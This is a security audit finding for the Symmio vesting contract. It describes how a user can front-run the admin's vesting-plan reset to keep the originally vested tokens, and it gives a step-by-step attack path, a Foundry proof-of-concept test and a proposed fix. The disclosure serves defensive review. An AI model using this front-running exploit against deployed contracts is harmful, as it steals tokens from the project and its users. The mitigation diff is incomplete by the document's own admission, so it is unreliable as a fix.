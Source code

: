 Fluffy Champagne Sardine

Medium

# Attacker can front-run the `Vesting::resetVestingPlans` stealing their original vested amount

### Summary

Attacker can front-run the `resetVestingPlans` and receive free tokens equal to the amount of tokens previously vested. 
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/Vesting.sol#L118

This is an issue because the contract is explicitly checking the amount of tokens unlocked, but not the amount of tokens unlocked by paying an early penalty fee of 50%. A 50% fee is not an issue because the tokens gained come at no cost to the attacker.

Here is the error where the contract checked the unlocked amount, but does not check the locked amount  that was withdrawn with a penalty.
https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/Vesting.sol#L231



### Root Cause

Whenever, the admin calls the `Vesting::resetVestingPlans` function to update the vested amount of a user it overwrites there original vested amount. Therefore, an attacker can front-run this action by calling `Vesting::claimLockedToken` and withdraw almost all their originally vested amount (they have to leave 1 wei so it passes the `isSetup` check inside the [VestingLibrary](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/libraries/LibVestingPlan.sol#L87)
 https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/Vesting.sol#L160

### Internal Pre-conditions

1. The attacker must have an existing vesting plan

### External Pre-conditions

1. The admin calls the `Vesting::resetVestingPlans`


### Attack Path

1. The admin with the SETTER role calls the `Vesting::resetVestingPlans` function
2. The attacker front-runs the transaction and calls [claimLockedToken](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/Vesting.sol#L160)
3. The attacker leaves 1 wei in the vesting plan.
4. `Vesting::resetVestingPlans` is successfully processed.
5. The attacker is rewarded with the original vesting amount minus early withdraw fee for locked tokens currently 50%).

### Impact

Users can steal vested Symmio tokens.

### PoC

The following PoC is written is Foundry.
https://book.getfoundry.sh/config/hardhat
To add Foundry run:
1. `npm i --save-dev @nomicfoundation/hardhat-foundry`
2. Add require("@nomicfoundation/hardhat-foundry"); to the top of your hardhat.config.js file.

Paste the following test into the project test folder and run with `forge test --mt test_frontRunVestingReset -vvv`

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.18;

import {Test} from "forge-std/Test.sol";
import {SymmVesting} from "../../contracts/vesting/SymmVesting.sol";
import {TransparentUpgradeableProxy} from "@openzeppelin/contracts/proxy/transparent/TransparentUpgradeableProxy.sol";

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockERC20 is ERC20 {
    uint8 immutable DECIMALS;

    constructor(string memory name_, string memory symbol_, uint8 _decimals) ERC20(name_, symbol_) {
        _mint(msg.sender, 10_000_000 * 10 ** 18);
        DECIMALS = _decimals;
    }

    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }

    function decimals() public view override returns (uint8) {
        return DECIMALS;
    }
}

contract TestSymmVesting is Test {
    address public admin = makeAddr("admin");
    address public penaltyReceiver = makeAddr("penaltyReceiver");

    //Base Network constants

    address constant POOL = 0x94Bf449AB92be226109f2Ed3CE2b297Db94bD995;
    address constant ROUTER = 0x76578ecf9a141296Ec657847fb45B0585bCDa3a6;
    address constant PERMIT2 = 0x000000000022D473030F116dDEE9F6B43aC78BA3;
    address constant VAULT = 0xbA1333333333a1BA1108E8412f11850A5C319bA9;
    address constant SYMM = 0x800822d361335b4d5F352Dac293cA4128b5B605f;
    address constant USDC = 0x833589fCD6eDb6E08f4c7C32D4f71b54bdA02913;
    address constant SYMM_LP = 0x94Bf449AB92be226109f2Ed3CE2b297Db94bD995;

    //Contract instances
    SymmVesting public symmVesting;
    MockERC20 public symmToken;

    //actors
    address user1 = makeAddr("user1");
    address user2 = makeAddr("user2");
    address user3 = makeAddr("user3");
    address[] users = [user1, user2, user3];

    function setUp() public {
        //mock symm token
        symmToken = new MockERC20("Symmio", "SYMM", uint8(18));

        SymmVesting impl = new SymmVesting();
        vm.startPrank(admin);
        bytes memory data = abi.encodeWithSelector(
            SymmVesting.initialize.selector,
            admin,
            penaltyReceiver,
            POOL,
            ROUTER,
            PERMIT2,
            VAULT, /* SYMM */
            address(symmToken),
            USDC,
            SYMM_LP
        );
        TransparentUpgradeableProxy proxy = new TransparentUpgradeableProxy(address(impl), admin, data);
        symmVesting = SymmVesting(address(proxy));
        vm.stopPrank();
    }

    function test_runVestingSetup() public {
        //run the setup function
    }

    //////////////////////////
    //   Main Test         //
    /////////////////////////

    function test_frontRunVestingReset() public {
        //setup a vesting plan for a user
        setupVestingPlan(user1, 10_000e18);

        uint256 amountToClaim = 9_999e18;

        //front run the vesting reset
        vm.startPrank(user1);
        symmVesting.claimLockedToken(address(symmToken), amountToClaim);
        vm.stopPrank();
        //The early withdrawal penalty is 50% fee
        vm.assertEq(symmToken.balanceOf(user1), 4999500000000000000000);

        //Vesting is reset by the admin
        resetVestingPlan(user1, 5_000e18);
        vm.assertEq(symmVesting.getLockedAmountsForToken(user1, address(symmToken)), 5_000e18);
    }

    //////////////////////////
    //   Helper Functions   //
    /////////////////////////

    function setupVestingPlan(address _user, uint256 _amount) public {
        uint256 duration = 7 days;
        address[] memory userArray = new address[](1);
        userArray[0] = _user;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = _amount;
        //Setup vesting plans
        vm.startPrank(admin);
        symmVesting.setupVestingPlans(
            address(symmToken), block.timestamp, block.timestamp + duration, userArray, amounts
        );
    }

    function resetVestingPlan(address _user, uint256 _amount) public {
        address[] memory userArray = new address[](1);
        userArray[0] = _user;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = _amount;
        //reset the vesting plan
        vm.startPrank(admin);
        symmVesting.resetVestingPlans(address(symmToken), userArray, amounts);
        vm.stopPrank();
    }
}

```

### Mitigation

When reseting vesting plans checked the withdrawn locked tokens here: https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/main/token/contracts/vesting/Vesting.sol#L231

```diff
                         VestingPlan storage vestingPlan = vestingPlans[token][user];
-			if (amount < vestingPlan.unlockedAmount()) revert AlreadyClaimedMoreThanThis();
+                       if (amount < vestingPlan.unlockedAmount() | amount < vestingPlan.lockedAmountWithdrawn) revert AlreadyClaimedMoreThanThis();
			uint256 oldTotal = vestingPlan.lockedAmount();
```
Of course this would require the contract to tracked the amount of locked tokens withdrawn.